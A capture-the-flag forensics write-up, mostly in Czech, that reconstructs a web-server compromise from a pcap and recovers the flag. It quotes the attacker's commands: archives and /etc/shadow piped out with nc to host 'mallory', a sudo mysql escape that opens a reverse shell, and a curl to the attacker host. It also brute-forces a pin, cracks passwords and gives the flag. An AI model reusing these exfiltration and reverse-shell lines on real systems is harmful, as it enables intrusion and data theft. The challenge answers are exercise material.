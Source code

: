 # Suspicious communication (5)

## Zadání

Hi, emergency troubleshooter,

one of our web servers has apparently been compromised, analyze what happened from the record of recorded suspicious communication.

Stay grounded!

* [Download pcap for analysis](suspicious_communication.zip)

## Řešení

Stažený soubor ze zadání je záznam komunikace.

Zajímavý je záznam na portu 42121

```sh
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a

Linux 2c1c649ff17d 6.1.0-37-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.140-1 (2025-05-22) x86_64 GNU/Linux

whoami

www-data

pwd

/var/www/html/uploads

df -h

Filesystem      Size  Used Avail Use% Mounted on
overlay          98G   44G   51G  47% /
tmpfs            64M     0   64M   0% /dev
shm              64M     0   64M   0% /dev/shm
/dev/sda2        98G   44G   51G  47% /shared
tmpfs           3.9G     0  3.9G   0% /proc/acpi
tmpfs           3.9G     0  3.9G   0% /sys/firmware

tar -zcf /tmp/html.tgz /var/www/html
cat /tmp/html.tgz | nc mallory 42122
sudo -l

Matching Defaults entries for www-data on 2c1c649ff17d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on 2c1c649ff17d:
    (root) NOPASSWD: /usr/bin/mysql*

sudo /usr/bin/mysql -e '\! nc -e /bin/sh mallory 42123'
exit
```

Na portu 42122 jsou přeneseny zdrojové soubory WEB serveru jako `html.tgz`.

Na portu 42123

```sh
cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
mysql:x:100:101:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
tcpdump:x:102:104::/nonexistent:/usr/sbin/nologin
webmaster:x:1000:1000:,,,:/home/webmaster:/bin/bash

tar zcf /tmp/all.tgz /etc /root /home
curl -k -s https://mallory:42120/pincode/`hostname -f` > /tmp/secret
ls -alh /tmp

total 17M
drwxrwxrwt 1 root     root     4.0K Jul 16 08:07 .
drwxr-xr-x 1 root     root     4.0K Jul 16 08:05 ..
-rw-r--r-- 1 root     root      17M Jul 16 08:07 all.tgz
-rw------- 1 root     root      182 Jul 16 08:05 apache2-stderr---supervisor-gvzlqfqv.log
-rw------- 1 root     root        0 Jul 16 08:05 apache2-stdout---supervisor-l6ohlz0u.log
-rw-r--r-- 1 www-data www-data  46K Jul 16 08:07 html.tgz
-rw------- 1 root     root        0 Jul 16 08:05 mysqld_safe-stderr---supervisor-g6ruwbqj.log
-rw------- 1 root     root      135 Jul 16 08:05 mysqld_safe-stdout---supervisor-lct36jfa.log
drwxr-xr-x 2 root     root     4.0K Jul 16 08:05 output
-rw------- 1 root     root      131 Jul 16 08:05 pcap-stderr---supervisor-cl8n5_cp.log
-rw------- 1 root     root        0 Jul 16 08:05 pcap-stdout---supervisor-qrq22yby.log
-rw-r--r-- 1 root     root        6 Jul 16 08:07 secret

cat /etc/shadow | openssl enc -aes-256-cbc -e -a -salt -pbkdf2 -iter 10 -pass file:/tmp/secret | nc mallory 42124
cat /tmp/all.tgz | openssl enc -aes-256-cbc -e -a -salt -pbkdf2 -iter 10 -pass file:/tmp/secret | nc mallory 42125
exit
```

A na portu 42124 a 42125 jsou přenesena zašifrované soubory `shadow` a `all.tgz`.

Ze záznamu na portu 42123 je zřejmé, že šifrovací klíč má délku 3 znaků a protože se jedná o pin, skládá se jen z čísel.

Stáhneme si zašifrované soubory přenesené na portech 42124 a 42125 a Base64 dekódujeme.

Pro zjištění hesla (pinu) použijeme [bruteforce-salted-openssl](https://github.com/glv2/bruteforce-salted-openssl).

`bruteforce-salted-openssl -t 4 -l 6 -m 6 -s "0123456789" -K -i 10 shadow`

Po chvilce se zobrazí heslo `101525`.

Rozkódujeme soubory

```text
openssl enc -aes-256-cbc -d -salt -pbkdf2 -iter 10 -pass pass:101525 -in shadow_enc -out shadow
openssl enc -aes-256-cbc -d -salt -pbkdf2 -iter 10 -pass pass:101525 -in all.tar.gz_enc -out all.tar.gz
```

V souboru `etc\ssl\private\ssl-cert-snakeoil.key` v `all.tar.gz` je RSA klíč pro WEB server, který nám dovolí ve Wiresharku rozkódovat HTTPS komunikaci <https://wiki.wireshark.org/TLS>.

Rámec č. 99398 sice zmiňuje URL `app/backupflag.php`

`<p><a href="/app/backupflag.php" class="btn btn-danger">Create and Download Encrypted Backup of Flag</a></p>\n`

ale v rámci 111711 je použito `app/backup.php`, které stáhne

`aOI32ayLIofLCXLWZtzmdY077Q1jcYUQof7GFBbOWHY=`

FLAG kóduje `backup.php` takto

```php
<?php
require 'auth.php';
require_auth();

if (!is_admin()) {
    http_response_code(403);
    die('Access denied. Only admin can create backup.');
}

$flagPath = "/secrets/flag.txt";
$password = current_pass();

if (!file_exists($flagPath)) {
    die("Flag file not found.");
}

$flagData = file_get_contents($flagPath);

$iv = substr(hash('sha256', 'iv' . $password), 0, 16);
$key = hash('sha256', $password, true);

$encrypted = openssl_encrypt($flagData, 'aes-256-cbc', $key, 0, $iv);
if ($encrypted === false) {
    die("Encryption failed.");
}

// Nabídne soubor k downloadu
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename="backup.enc"');
header('Content-Length: ' . strlen($encrypted));

echo $encrypted;
exit;
```

Je ještě potřeba zjistit admin heslo, které je zakódováno v `all.tar.gz` v souboru `etc\apache2\.htpasswd`.

`john .htpasswd`

```text
tester           (alice)
Bananas9         (admin)
```

Heslo máme, můžeme dekódovat

```php
<?php
$password="Bananas9";
$flagData="aOI32ayLIofLCXLWZtzmdY077Q1jcYUQof7GFBbOWHY=";

$iv = substr(hash('sha256', 'iv' . $password), 0, 16);
$key = hash('sha256', $password, true);

$decrypted = openssl_decrypt($flagData, 'aes-256-cbc', $key, 0, $iv);
echo $decrypted;
?>
```

`php -f decode.php`

## Flag

`FLAG{kyAi-J2NA-n6nE-ZIX6}`
